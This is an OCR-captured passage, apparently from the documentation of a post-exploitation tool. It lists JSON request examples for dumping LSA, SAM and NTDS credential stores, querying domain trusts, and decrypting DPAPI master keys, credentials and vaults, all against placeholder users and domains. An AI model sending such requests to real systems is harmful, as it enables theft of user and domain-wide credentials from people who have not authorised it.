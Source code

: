 ```bash
}
```

### LSA Dumping
```bash
# LSA dump
{
  "action": "lsa_dump",
  "target_user": "user@domain.com"
}

# SAM dump
{
  "action": "sam_dump",
  "target_user": "user@domain.com"
}

# NTDS dump
{
  "action": "ntds_dump",
  "target_domain": "domain.com"
}
```

### Domain Information
```bash
# Domain info
{
  "action": "domain_info",
  "target_domain": "domain.com"
}

# Trust info
{
  "action": "trust_info",
  "target_domain": "domain.com"
}
```

### DPAPI Operations
```bash
# DPAPI decrypt
{
  "action": "dpapi_decrypt",
  "target_user": "user@domain.com"
}

# DPAPI master key
{
  "action": "dpapi_masterkey",
  "target_user": "user@domain.com"
}

# DPAPI credential
{
  "action": "dpapi_credential",
  "target_user": "user@domain.com"
}

# DPAPI vault
{
  "action": "dpapi_vault",
  "target_user": "user@domain.com"
```